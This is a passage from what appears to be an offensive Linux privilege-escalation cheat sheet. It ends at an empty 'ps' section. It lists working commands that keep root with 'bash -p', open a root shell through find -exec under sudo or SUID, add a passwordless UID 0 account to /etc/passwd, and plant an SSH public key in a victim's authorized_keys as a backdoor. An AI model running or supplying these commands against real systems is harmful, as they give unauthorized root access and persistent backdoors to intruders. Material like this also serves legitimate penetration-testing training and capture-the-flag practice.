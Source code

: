 
## Sudo/SUID bit - bash

Launched thanks sudo or with SUID bit set, bash drops its privileges. To keep root id, use -p option.
```
bash -p
```








## Sudo/SUID bit - find

To open a shell, find a known file then launch the command: /bin/sh.
```
sudo /usr/bin/find . -name readme.txt -exec /bin/sh \;
./find . -name readme.txt -exec /bin/sh \;



<!--- category: PrivEscUx --->
<!--- id: etcpasswd --->
<!--- title: Add a password less account with root rights --->
<!--- keywords:  --->
## Add a password less account with root rights

If you have the rights to modify /etc/passwd, you can be root. For example tee with a sudo as root.
Add an entry with a UID of 0 (root UID), and an empty password.
```
echo myroot::0:0:::/bin/bash | sudo tee -a /etc/passwd 
su myroot 
```




<!--- category: PrivEscUx --->
<!--- id: pubkey --->
<!--- title: Create an ssh backdoor by adding a public key. --->
<!--- keywords:  --->
## Create an ssh backdoor by adding a public key.

```
echo 'ssh-rsa AAAAB3[...]CHN2CpQ== yolo@yolospacehacker.com' > /home/victim/.ssh/authorized_keys
ssh -i id_rsa victim@iptarget
```




<!--- category: PrivEscUx --->
<!--- id: section --->
<!--- title: Process exploitation --->
<!--- keywords:  --->
## Process exploitation



<!--- category: PrivEscUx --->
<!--- id: ps --->
<!--- title: ps --->
<!--- keywords:  --->
## ps
```